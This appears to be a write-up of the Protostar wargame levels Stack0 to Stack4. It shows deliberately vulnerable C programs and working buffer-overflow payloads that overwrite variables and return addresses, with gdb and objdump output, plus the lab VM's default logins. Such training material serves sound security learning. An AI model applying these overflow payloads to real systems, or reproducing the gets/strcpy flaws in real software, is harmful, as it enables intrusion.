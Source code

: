 ## Wargame/Protostar

## VM Configuration

- protostar vm (parallels, vmware, vmplayer, ...)
- Login as admin id `root/godmod` and check IP using `ifconfig`
- ssh `user@ip`, password : `user`

## Stack0

> /opt/protostar/bin/stack0

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

### You should know 

- parameter passing to `gets()`
- order of local parameters on the stack
- command line python script

```bash
$ (python -c 'print "A"*64+"BBBB"';cat)|./stack0
you have changed the 'modified' variable
```

## Stack1

> /opt/protostar/bin/stack1

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

### You should know 

- endian in memory

```bash
$ ./stack1 `python -c 'print "A"*64+"\x64\x63\x62\x61"'`
you have correctly got the variable to the right value
```

## Stack2

> /opt/protostar/bin/stack2

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

### You should know 

- shell variable
- env variable

```bash
$ GREENIE=`python -c 'print "A"*64+"\x0a\x0d\x0a\x0d"'`
$ export GREENIE
$ ./stack2
you have correctly modified the variable
```

## Stack3

> /opt/protostar/bin/stack3

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

### You should know 

- getting address of the function
- `objdump`

```bash
$ objdump -d ./stack3 | grep win
08048424 <win>:
$ (python -c 'print "A"*64+"\x24\x84\x04\x08"';cat)|./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```

## Stack4

> /opt/protostar/bin/stack4

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

### You should know 

- `gdb`
- make eip value modified
- assembly : `lea    0x10(%esp),%eax`

```bash
$ scp user@10.211.55.5:/opt/protostar/bin/stack4 .

gef➤  x/64x $esp
0xffffcf00: 0xffffffff  0xffffcf2e  0xf7e1ec34  0xf7e44fe3
0xffffcf10: 0x00000000  0x080495ec  0xffffcf28  0x080482e8
0xffffcf20: 0xffffd1c9  0x080495ec  0xffffcf58  0x08048449
0xffffcf30: 0x08048430  0x08048340  0x00000000  0xf7e4519d
0xffffcf40: 0xf7fbb3c4  0xf7ffd000  0x0804843b  0xf7fbb000
0xffffcf50: 0x08048430  0x00000000  0x00000000  0xf7e2bad3
0xffffcf60: 0x00000001  0xffffcff4  

$ebp   : 0xffffcf58

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEE


gef➤  x/64x $esp
0xffffcf00: 0xffffcf10  0xffffcf2e  0xf7e1ec34  0xf7e44fe3
0xffffcf10: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffcf20: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffcf30: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffcf40: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffcf50: 0x42424242  0x43434343  0x44444444  0x45454545
0xffffcf60: 0x00000000  0xffffcff4  

$ objdump -d stack4 | grep win
080483f4 <win>:
$ (python -c 'print "A"*64+"BBBBCCCC"+"DDDD"+"\xf4\x83\x04\x08"';cat)|./stack4
code flow successfully changed
```
